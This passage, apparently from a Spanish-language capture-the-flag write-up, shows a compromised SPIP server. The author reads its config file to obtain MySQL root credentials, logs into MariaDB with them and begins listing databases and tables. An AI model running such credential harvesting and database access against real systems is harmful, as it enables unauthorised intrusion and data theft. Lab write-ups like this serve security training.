 ```shell
cat /usr/www/html/config/connect.php
```

Info:

```
<?php
if (!defined("_ECRIRE_INC_VERSION")) return;
defined('_MYSQL_SET_SQL_MODE') || define('_MYSQL_SET_SQL_MODE',true);
$GLOBALS['spip_connect_version'] = 0.8;
spip_connect_db('localhost','','root','dbpassword','spip','mysql', 'spip','','');
```

Vemos bastantes cosas interesantes, entre ellas las credenciales para conectarnos por `mysql` por lo que haremos lo siguiente:

```shell
mysql -h localhost -u root -pdbpassword
```

Info:

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 64
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [(none)]>
```

Con esto ya estaremos dentro, por lo que vamos a investigar un poco.

```mysql
show databases;
```

Info:

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| spip               |
| sys                |
+--------------------+
5 rows in set (0.049 sec)
```

Vamos a seleccionar la llamada `spip` que es la que no viene por defecto.

```mysql
use spip
show tables;
```
